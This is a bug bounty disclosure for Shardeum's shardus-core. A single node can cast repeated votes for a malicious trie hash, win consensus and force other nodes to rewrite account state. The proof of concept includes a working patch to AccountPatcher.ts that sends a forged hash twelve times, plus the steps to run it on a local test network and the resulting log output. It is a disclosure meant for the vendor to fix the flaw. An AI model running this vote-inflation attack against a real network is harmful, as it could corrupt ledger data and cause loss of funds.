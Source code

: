 
# Inflating the votes of the hash for a malicious trie data structure to bypass the consensus system and modify account data

Submitted on Aug 3rd 2024 at 08:42:07 UTC by @infosec_us_team for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33972

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Direct loss of funds

## Description
## Brief/Intro

In Shardeum, no single node stores the entire state of the blockchain. A dynamic sharding system is used and the address space is divided into multiple shards, each managed by a different set of nodes.

The Shardeum network utilizes a consensus system where nodes vote on the hash of the trie data structure managed by their shard, once they agree on the data it becomes part of the next cycle.

In this report, we demonstrate how a single node in a shard can fool the consensus system, allowing it to create a malicious trie data structure and inflate its hash's votes by any amount until it wins the consensus.

As a result, all nodes will try to "repair" their data based on the hash that won the consensus. In other words, a single node can modify the state of the blockchain assigned to his shard.

> *Bypassing the consensus system to modify the state of the blockchain creates a loss of funds.*

## Vulnerability Details

After each tree computation, the correct radix and hashes are sent out to other nodes using the function `broadcastSyncHashes(...)`.

> Function broadcastSyncHashes(...): https://github.com/shardeum/shardus-core/blob/dev/src/state-manager/AccountPatcher.ts#L3085

The internal gossip handler `sync_trie_hashes` is responsible for syncing those trie hashes between nodes in the network, adding votes to the **hashTrieSyncConsensus** with every gossip received.

> Function sync_trie_hashes(...): https://github.com/shardeum/shardus-core/blob/dev/src/state-manager/AccountPatcher.ts#L696-L767

When adding a vote for a hash, the public key of the node that is voting is saved, but unfortunately, it is not used to prevent the same node from voting multiple times.

An attacker node can distribute the hash of a malicious data structure and vote an unlimited amount of times within seconds to always win the consensus.

After a few seconds, the `testAndPatchAccounts` function is called to test if the node is in sync on all accounts and to repair data if it is not. This repair process looks for a tree data structure that matches the hash that won the consensus, in this case, a hash for a malicious tree data structure.

## Impact Details

Bypassing the consensus system to modify the state of the blockchain creates a loss of funds.



## Proof of Concept

Download locally Shardus Core repo and Shardeum's repo locally.

Apply the following patch to the Shardeum repo:

```
git apply debug-10-nodes.patch
```

Now point Shardeum to use the local copy of Shardu's Core as instructed in the README.md file of Shardeum's codebase.

In your local copy of Shardeum, open the file `src/state-manager/AccountPatcher.ts` and replace the following snippet of code from L3227 to L3228:
```
        const promise = this.p2p.tell([messageEntry.node], 'sync_trie_hashes', messageEntry.message)
        promises.push(promise)
```
> Snippet of code from: https://github.com/shardeum/shardus-core/blob/dev/src/state-manager/AccountPatcher.ts#L3227-L3228

With this one:
```
        // HACK: INFOSEC
        // if we are 9002 (evil node) send a malicious hash and vote for it 12 times in a row
        // if we are not 9002 proceed as usual
        if (Self.getThisNodeInfo().externalPort == 9002) {
          console.log(`INFOSEC: Dup votes sent via internal`);
          let evilMessage = messageEntry.message;
          for (let i = 0; i < evilMessage.nodeHashes.length; i++) {
            evilMessage.nodeHashes[i].hash = `helloWorld${i}`;
          }
          for (let a = 0; a < 12; a++) {
            const promise = this.p2p.tell([messageEntry.node], 'sync_trie_hashes', evilMessage)
            promises.push(promise)
          }
        } else {
          const promise = this.p2p.tell([messageEntry.node], 'sync_trie_hashes', messageEntry.message)
          promises.push(promise)
        }
```

Then replace the following snippet of code from L3216 to L3223:
```
        const promise = this.p2p.tellBinary<SyncTrieHashesRequest>(
          [messageEntry.node],
          InternalRouteEnum.binary_sync_trie_hashes,
          syncTrieHashesRequest,
          serializeSyncTrieHashesReq,
          {}
        )
        promises.push(promise)
```
> Code snippet from: https://github.com/shardeum/shardus-core/blob/dev/src/state-manager/AccountPatcher.ts#L3216-L3223

With this:
```
        // HACK: INFOSEC
        // if we are 9002 (evil node) send a malicious hash and vote for it 12 times in a row
        // if we are not 9002 proceed as usual
        if (Self.getThisNodeInfo().externalPort == 9002) {
          console.log(`INFOSEC: Dup votes sent via binary`);
          for (let i = 0; i < syncTrieHashesRequest.nodeHashes.length; i++) {
            syncTrieHashesRequest.nodeHashes[i].hash = `helloWorld${i}`;
          }

          for (let a = 0; a < 12; a++) {
            const promise = this.p2p.tellBinary<SyncTrieHashesRequest>(
              [messageEntry.node],
              InternalRouteEnum.binary_sync_trie_hashes,
              syncTrieHashesRequest,
              serializeSyncTrieHashesReq,
              {}
            )
            promises.push(promise)
          }
        } else {
          const promise = this.p2p.tellBinary<SyncTrieHashesRequest>(
            [messageEntry.node],
            InternalRouteEnum.binary_sync_trie_hashes,
            syncTrieHashesRequest,
            serializeSyncTrieHashesReq,
            {}
          )
          promises.push(promise)
        }
```

With these changes, we have modified the node to do the following:

- If the current node executing the code is **NOT** running in port 9002, then is going to be a legit/good node and it will run as usual. No modifications are made to these nodes, they will gossip the correct hashes.

- If the current node executing the code **IS** running in port 9002, then is going to be a malicious node, that will gossip a malicious hash and inflate its votes in the consensus system until it wins v.s. the correct/legit hash, and forces the network to "repair" their data.

Now build both codebases, and start the network with 10 nodes using shardus's CLI (`shardus start 10`)

Wait until cycle 16 before proceeding with the next step. All nodes should be active and synced by cycle 16.

Finally, go to the log file at `./instances/shardus-instance-9004/logs/fatal.log` and it will be filled with errors abut not being in sync and having bad accounts.
```
[2024-08-02T20:24:23.050] [FATAL] fatal - isInSync = false bad accounts cycle:14 bad:0 received:0 failedH: 0 filtered:{"accepted":0,"sameTS":0,"sameTSFix":0,"tooOld":0,"tsFix2":0,"tsFix3":0} stats:{"badSyncRadix":16,"checkedLevel":2,"fixLastSeen":0,"fix_butHashMatch":0,"getAccountHashStats":{"actualRadixRequests":0,"empty":0,"exceptions":0,"matched":0,"nullResults":0,"numRequests":0,"radixToReq":0,"responses":0,"visisted":0},"leafResponses":0,"leafsChecked":0,"needsVotes":0,"ok_noTrieAcc":0,"ok_trieHashBad":0,"skippedSyncRadix":0,"subHashesTested":0,"testedSyncRadix":16,"trailColdLevel":2} getAccountStats: {"multiRequests":0,"requested":0,"skipping":0} details: []
```
> Change 9004 in the filepath with another port to check other nodes complain as well.

A huge dump asking to repair all data accounts can be found in `./instances/shardus-instance-9004/logs/main.log` - is too big to paste here.

# Conclusion

In this POC we prove how to bypass the consensus system and fool the network into believing they have the wrong data state and must repair the accounts data with "the correct" trie data structure.